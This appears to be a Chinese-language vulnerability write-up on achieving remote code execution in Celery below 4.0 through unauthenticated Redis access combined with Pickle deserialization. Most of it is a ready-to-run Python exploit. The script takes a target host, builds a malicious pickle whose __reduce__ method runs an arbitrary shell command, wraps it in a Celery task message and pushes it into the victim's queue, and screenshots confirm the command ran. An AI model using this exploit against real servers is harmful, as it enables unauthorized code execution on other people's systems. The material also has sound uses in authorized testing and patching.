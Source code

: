 # Celery <4.0 Redis未授权访问+Pickle反序列化利用

> 漏洞说明

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。



> 前提条件

版本：Celery < 4.0



> 利用工具

```python
# Celery <4.0 Redis未授权访问+Pickle反序列化利用exp
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 

ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/tomato'
class Person(object):
    def __reduce__(self):
        # 未导入os模块，通用
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush('celery',json.dumps(task_dict))



```



> 漏洞复现

执行攻击exp

![image-20221218183904175](../img/Celery_Redis未授权+Pickie反序列化/image-20221218183904175.png)

文件成功写入

![image-20221218184122917](../img/Celery_Redis未授权+Pickie反序列化/image-20221218184122917.png)

